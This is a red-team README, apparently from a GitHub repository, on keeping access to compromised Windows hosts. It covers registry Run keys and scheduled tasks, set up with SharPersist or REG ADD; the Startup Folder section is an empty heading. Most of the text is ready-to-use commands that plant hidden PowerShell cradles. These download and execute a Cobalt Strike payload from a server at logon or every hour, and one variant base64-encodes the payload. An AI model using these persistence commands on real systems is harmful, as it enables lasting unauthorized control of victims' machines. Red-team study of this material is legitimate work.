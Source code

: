 # Methods of regaining or maintaining access to a compromised host

Following methods can be used to regain access to a compromised host.

#### <b>1.</b> <a href="https://github.com/incredibleindishell/Red_Team_Op/new/main#1-registry-autoruns-1">Registry Autoruns</a>
#### <b>2.</b> <a href="https://github.com/incredibleindishell/Red_Team_Op/new/main#2-scheduled-tasks-1">Scheduled Tasks</a>
#### <b>3.</b> <a href="https://github.com/incredibleindishell/Red_Team_Op/new/main#3-startup-folder-1">Startup Folder</a>

To create the payloads for above mentioned scenarios, user can use SharPersist tool from below mentioned Github Repo:

https://github.com/mandiant/SharPersist

SharPersist allows a user to create payload for different backdooring techniques. 

It supports following options/arguments 

    -t: Persistence technique
    -c: Command to execute
    -a: Arguments of command to execute (if applicable)
    -f: File to create/modify
    -k: Registry key to create/modify
    -v: Registry value to create/modify
    -n: Scheduled task name OR Service name
    -m: Method(add, remove, check, list)
    -o: Optional add-ons
    -h: Help page


#### 1. Registry Autoruns
---
To add the registry entry, either use Shapersist or do it manually. 

<b>Using SharPersist:</b>
    
a) Current user: 

Below mentioned command will add a new registry entry under "current user" registry `(HKEY_CURRENT_USER)`. When user will login to the machine, this regsitry key will execute the command which will make an HTTP request to the Cobalt Strike server to download the PowerShell payload and will execute it.

    SharPersist.exe -t reg -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))" -k "hkcurun" -v "b0x" -m add

b) Local Machine <b>(Admin privilege required)</b>: 

Below mentioned command will add a new registry entry under "Local Machine" registry `(HKEY_LOCAL_MACHINE)`. When user will login to the machine, this regsitry key will execute the command which will make an HTTP request to the Cobalt Strike server to download the PowerShell payload and will execute it.

    SharPersist.exe -t reg -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))" -k "hklmrun" -v "b0x" -m add

<b>Manually:</b>
    
a) Current user: 

Below mentioned command will add a new registry entry under "current user" registry `(HKEY_CURRENT_USER)`. When user will login to the machine, this regsitry key will execute the command which will make an HTTP request to the Cobalt Strike server to download the PowerShell payload and will execute it.

    REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run  /t REG_SZ  /v box2 /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))"

b) Local Machine <b>(Admin privilege required)</b>: 

Below mentioned command will add a new registry entry under "Local Machine" registry `(HKEY_LOCAL_MACHINE)`. When user will login to the machine, this regsitry key will execute the command which will make an HTTP request to the Cobalt Strike server to download the PowerShell payload and will execute it.

    REG ADD HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run  /t REG_SZ  /v box2 /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))" 


    
#### 2. Scheduled Tasks
---

In local machine, open PowerShell console and execute below mentioned commands to generate the base64 encoded text of the Cobalt strike's PowerShell based beacon payload:

    PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://cobalt_strike_server/poershell_payload"))'
    PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

In Cobalt strike beacon console, execute below mentioned command (replace text Base_64_encoded_payload_goes_here with the output generated in the above step) to add a new scheduled task with name `b0x` which will execute after every one hour:
    
    execute-assembly C:\Path_to_sharpersist\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc Base_64_encoded_payload_goes_here" -n "b0x" -m add -o hourly

<b>Example:</b>
In below mentioned example, adding a task which will make an HTTP request to Teamserver on URL `http://192.168.56.104/ps.ps1` and will execute the PowerShell payload whenever user will logon to the machine:

     SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))" -n "Updater" -m add -o logon


#### 3. Startup Folder
---

